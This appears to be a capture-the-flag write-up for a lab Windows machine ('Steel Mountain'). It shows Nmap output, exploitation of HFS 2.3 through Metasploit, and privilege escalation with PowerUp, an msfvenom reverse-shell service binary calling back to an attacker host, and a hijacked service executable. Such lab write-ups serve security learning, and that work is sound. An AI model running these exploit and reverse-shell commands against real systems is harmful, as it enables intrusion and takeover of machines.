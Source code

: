 #CTF 

*In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.*

## Recon 

As always we start with [[Nmap]]: 

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          Microsoft SChannel TLS
| fingerprint-strings: 
|   TLSSessionReq: 
|     \xb3
|     steelmountain0
|     230428102825Z
|     231028102825Z0
|     steelmountain0
|     ((d.
|     5MQF
|     !8z#
|     }Z@<b
|     \x0e[y
|     $0"0
|     \xbc"
|     p9N)b
|     509$
|     6M9yZVA+
|     ^<r5
|_    Qg3G
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2023-04-28T10:28:25
|_Not valid after:  2023-10-28T10:28:25
|_ssl-date: 2023-04-29T10:43:56+00:00; 0s from scanner time.
8080/tcp  open  http         HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.60%I=7%D=4/29%Time=644CF4AF%P=x86_64-pc-linux-gnu%r(TL
SF:SSessionReq,346,"\x16\x03\x03\x03A\x02\0\0M\x03\x03dL\xf4\xaa1\xe3\xb8Q
SF:\x18\xfb\x89\x0b\xedU\x05\x7f\xa3I\xca\xb7\+\]\xcb\x93\xbd\x8e\x1c\xdf\
SF:xe0\xc6\x88\x88\x20\xe7\x16\0\0\xb2\x9f\xea\xa3\x07\xdf\x97\xf6\xac\x1a
SF:\x80\\\xb3\x91\xd5\x10H8\xa9s\x1a\xaedz\x0bT\xd2\xad\0/\0\0\x05\xff\x01
SF:\0\x01\0\x0b\0\x02\xe8\0\x02\xe5\0\x02\xe20\x82\x02\xde0\x82\x01\xc6\xa
SF:0\x03\x02\x01\x02\x02\x10\x20&\xee\x94\x0f\xa3\xac\x86O\x8etRQ\r\x13\x9
SF:b0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x05\x05\x000\x181\x160\x14\x06\x03U
SF:\x04\x03\x13\rsteelmountain0\x1e\x17\r230428102825Z\x17\r231028102825Z0
SF:\x181\x160\x14\x06\x03U\x04\x03\x13\rsteelmountain0\x82\x01\"0\r\x06\t\
SF:*\x86H\x86\xf7\r\x01\x01\x01\x05\0\x03\x82\x01\x0f\x000\x82\x01\n\x02\x
SF:82\x01\x01\0\xbe\xa2\x12\x80\(\(d\.\xeb\xfayxO\xc6L\x12\xf7#\x8c\xcf5MQ
SF:F\xb5\x83\xcf\xf3\xcb\xeb\xa2\x1d\xbay\x90\xdb\xbe\x9a\x8e\x04\^\xbaS\x
SF:81\xcb\xda\x98\xca\x91\x0bG\xb1\xd0\xad\xa4\xd5\x94\xad\x94\xd3\xd0;\xb
SF:c\x8ff\x1d;\x85z\xfe\xcbY\x08C\r\xae!\?\xd9%\xfe\$,\xc0\x19q\x94\x85P3\
SF:xd1\t\x7f\+k\xee!8z#\x01~\0-\xd2}Z@<b\xa5~\x058v\x0cw\xea\x10\+l\x82\x7
SF:f\(\xa7W\xb7\xe5\xdczu\xbe\xf7\x9e\xc3\x17M\x9f\0\xff\x17m\xfd\xfa\x94\
SF:xc0\xbc\xfbe-\xe1\x9e\x85U\x99\xcfJV>\xb9\xe0\xc0\xf3\x19\xcbxc\xf9\xf2
SF:\xe5\xdd\xeaf\xcc>o2\x1c\x80\xe8r\+\xcd\x8e\xc2\x8fV/L\xbf\x7f\x87\x7f\
SF:xf8mG\xeb\x90\x0ce\x93\xe6\xaf\x962\xb4Y\xca\xc0\xb6\|\xd3<\x17\xb7}I\x
SF:b82\x95\xbe=\xf6\0\xc6\\\x0e\[y\xf0\x03uk6\xe4JT\xedc\xafN<\xea\x04\xad
SF:\xeeO\xb7}\xd1\x8e@\x83H\xa5\xe1\x02\x03\x01\0\x01\xa3\$0\"0\x13\x06\x0
SF:3U\x1d%\x04\x0c0\n\x06\x08\+\x06\x01\x05\x05\x07\x03\x010\x0b\x06\x03U\
SF:x1d\x0f\x04\x04\x03\x02\x0400\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x05\x05\
SF:0\x03\x82\x01\x01\0\x8e\xd6\x93\xebl\n\\\xbc\"\xe3\xfd\xed\xf1\)f\xf5\x
SF:ed\x06p;\xe0\xe4\x18\xf4`\xd6p9N\)b\x9e\x7f\xc1\xb6C:>\0\x1b\x7f\xef\xa
SF:5\x90D\x8b\xe1509\$\xa6h\xa3X9\"\x9aA\xef\x1fgc'\xdcw\xcf\xf3\x956M9yZV
SF:A\+\xdf\x18fq\x1fl\x1c\*P\)\x05\xfcD{~\xf4W\x0f\xb2\xf0\xfcB\xf3\xd5\?\
SF:xe3\x83s\[\x93\xa8\xcaZ\xf2`\xfd\x9eg\\P\xa8\x9f\xeb\xcd\xa1\xa6\xe9\x9
SF:7/}\xce\x8bG\xcd\xd6\x8b\xaaM\x9e\xe6\xb7\xba3\xfeHn\xc9\xb6\xcb\x8dbo7
SF:\x1b\xb2B\x0ed\x14\x06\xe4\x04X\x1b\xb1\t\^<r5\x1f\xfe\x16\xe2\xb8t\xe1
SF:\xc7d\xe9s\x98\xa0\x9e\xe8HHC\x0b\x93\xdb0e\xd7;\xc4\x89\xe6\xbe\xde\xc
SF:7,~\xa5FXM\xb9\xa1\xc5\xaf\]\xbd\|:\xf4\xf9\x03\xc9\x9c\xdb\xacQg3G\xad
SF:R\xfeJ\$y\x9a\x90x\xf4X\xd2F\x11\x02\x80\xa7i\|\xd7\xb7Kb\xa2\xb8\xfeY\
SF:xe4\x8f\x8e\xc1\xd6=\x0e\0\0\0");
MAC Address: 02:26:8D:D7:A8:A7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/29%OT=80%CT=1%CU=37853%PV=Y%DS=1%DC=D%G=Y%M=02268D%T
OS:M=644CF4F1%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=I%CI=I%TS=7
OS:)SEQ(SP=102%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=102%GCD=1%ISR=
OS:10A%TI=I%TS=7)OPS(O1=M2301NW8ST11%O2=M2301NW8ST11%O3=M2301NW8NNT11%O4=M2
OS:301NW8ST11%O5=M2301NW8ST11%O6=M2301ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2
OS:000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M2301NW8NNS%CC=Y%Q=)T1(R=
OS:Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%R
OS:D=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0
OS:%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=
OS:G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:26:8d:d7:a8:a7 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-04-29 11:43:56
|_  start_date: 2023-04-29 11:28:13
```

Lots and lots of data here. The room doesn't tells us anything , so I see the port 80 and I google the site.
The site has the logo of the company and a photo of the Emplotee of the month.
We also see a 8080 port that runs http file server as well.
We go there and now we need to search online for exploits.
I found https://www.exploit-db.com/exploits/39161

## Access

So we are going to use [[Metasploit]] to gain access to the machine.
We search for httpfile server 2.3 and we get:
`exploit/windows/http/rejetto_hfs_exec`
We set RHOSTS to the target ip and RPORT to 8080 and exploit!
We got access , then we look around and we find our first flag!



## Privilege Escalation

Next we have to gain some privileges. We will use https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

We save it on a file an `upload [file name]` on meterpreter.
After we successfully upload it we type
`load powershell` and
`powershell_shell` and we have power shell!
Next we type
`. .\PowerUp.ps1`
`Invoke-AllChecks`
We take a look and we see that AdvancedSystemCareService9 can be restarted, so we craft a payload with:
`msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
Then on power shell we CTRL+C to exit, `background` meterpreter
`use multi/hanler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST [ip]`
`set LPORT 1234`
`run -j`

Then we go back to meterpreter session and type `shell` to go back to windows machine.
`sc stop AdvancedSystemCareService9` to stop the process.
Exit the shell
`uploadupload ASCService.exe "\Program Files (x86)\IObit\Advanced\SystemCare\ASCService.exe"`
back to shell and
`sc start AdvancedSystemCareService9`
